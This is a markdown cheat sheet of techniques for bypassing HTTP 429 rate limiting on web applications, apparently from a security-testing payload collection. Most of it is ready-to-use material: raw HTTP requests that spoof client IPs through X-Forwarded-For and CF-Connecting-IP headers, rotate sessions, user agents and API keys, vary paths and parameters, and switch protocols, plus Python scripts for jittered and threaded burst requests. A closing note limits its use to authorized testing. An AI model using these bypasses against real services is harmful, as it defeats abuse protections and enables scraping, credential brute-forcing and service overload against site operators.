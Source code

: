 # HTTP 429 Too Many Requests Bypass Techniques

Below are various payloads and techniques to bypass rate limiting (429 errors) when testing web applications. These methods attempt to circumvent request throttling by manipulating different aspects of the HTTP protocol.

## Basic Rate Limit Bypass Techniques

### 1. IP Rotation
```http
GET /api/v1/data HTTP/1.1
Host: example.com
X-Forwarded-For: 1.1.1.1
```

```http
GET /api/v1/data HTTP/1.1
Host: example.com
X-Forwarded-For: 2.2.2.2
```

### 2. Header Manipulation
```http
GET /api/v1/data HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
```

```http
GET /api/v1/data HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 15_0 like Mac OS X)
```

## Advanced Bypass Techniques

### 3. Protocol Switching
```http
GET /api/v1/data HTTP/2
Host: example.com
```

```http
GET /api/v1/data HTTP/1.0
Host: example.com
Connection: keep-alive
```

### 4. Parameter Pollution
```http
GET /api/v1/data?bypass=1 HTTP/1.1
Host: example.com
```

```http
GET /api/v1/data?cache=1625097600 HTTP/1.1
Host: example.com
```

### 5. Path Variations
```http
GET /API/v1/data HTTP/1.1
Host: example.com
```

```http
GET /api/V1/data HTTP/1.1
Host: example.com
```

## Header-Based Bypasses

### 6. Session Rotation
```http
GET /api/v1/data HTTP/1.1
Host: example.com
Cookie: session=abc123
```

```http
GET /api/v1/data HTTP/1.1
Host: example.com
Cookie: session=def456
```

### 7. Accept Header Manipulation
```http
GET /api/v1/data HTTP/1.1
Host: example.com
Accept: application/json
```

```http
GET /api/v1/data HTTP/1.1
Host: example.com
Accept: text/xml
```

## Timing-Based Bypasses

### 8. Randomized Delay
```python
import requests
import random
import time

for i in range(100):
    requests.get("https://example.com/api/v1/data")
    time.sleep(random.uniform(0.1, 2.5))
```

### 9. Burst Requests
```python
import requests
from threading import Thread

def make_request():
    requests.get("https://example.com/api/v1/data")

threads = [Thread(target=make_request) for _ in range(50)]
[t.start() for t in threads]
[t.join() for t in threads]
```

## Cloud-Based Bypasses

### 10. CDN Headers
```http
GET /api/v1/data HTTP/1.1
Host: example.com
CF-Connecting-IP: 8.8.8.8
```

```http
GET /api/v1/data HTTP/1.1
Host: example.com
X-Forwarded-Host: example.com
```

## API Key Rotation

### 11. Multiple API Keys
```http
GET /api/v1/data HTTP/1.1
Host: example.com
Authorization: Bearer key1
```

```http
GET /api/v1/data HTTP/1.1
Host: example.com
Authorization: Bearer key2
```

## Testing Methodology

1. Identify rate limit thresholds
2. Test different IP addresses/proxies
3. Rotate user agents and headers
4. Experiment with request timing
5. Try protocol version switching
6. Test path normalization variations
7. Attempt parameter pollution
8. Verify cookie/session handling

## Important Notes

- These techniques should only be used in authorized testing
- Rate limit bypass may violate terms of service
- Some methods may require infrastructure (proxies/VPNs)
- Document all testing with proper authorization
- Respect the site's robots.txt and security.txt

Remember that rate limiting implementations vary significantly between applications. What works on one system may not work on another. Always test carefully and ethically.